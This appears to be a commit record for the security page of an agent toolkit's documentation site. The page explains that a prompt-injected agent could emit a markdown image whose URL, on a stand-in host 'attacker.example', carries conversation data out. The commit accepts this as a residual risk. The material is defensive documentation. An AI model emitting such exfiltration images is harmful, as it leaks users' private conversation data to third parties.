

Before and after one commit to ecrespo/reflex-agentkit, an MkDocs documentation site: the page built from docs/security.md, in a window 1280 px wide and 900 px high, scrolled down 1831 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 2706 px from its top, so only the background shows below that.

Commit message:
docs(spec): accept markdown-image exfiltration as a residual risk
Maintainer decision: markdown images stay supported. TD v1.15 records it,
and the security page says why.

Co-Authored-By: Claude Opus 5.5 <noreply@anthropic.com>

```diff
--- a/docs/security.md
+++ b/docs/security.md
@@ -57,7 +57,8 @@ The agent's output is untrusted text.
   `![](https://attacker.example/?q=<conversation data>)`, and the browser would request
   that URL. If your agent reads untrusted content and handles sensitive data, keep it from
   emitting such images (instructions, output filtering), or render messages with your own
-  component instead of `message_list`.
+  component instead of `message_list`. This is an accepted trade-off: markdown images stay
+  supported because many agents use them legitimately.
 
 ## Dangerous tools
 
```
Also changed, not shown: specs/technical/agentkit-architecture.md (+3 -2 lines).
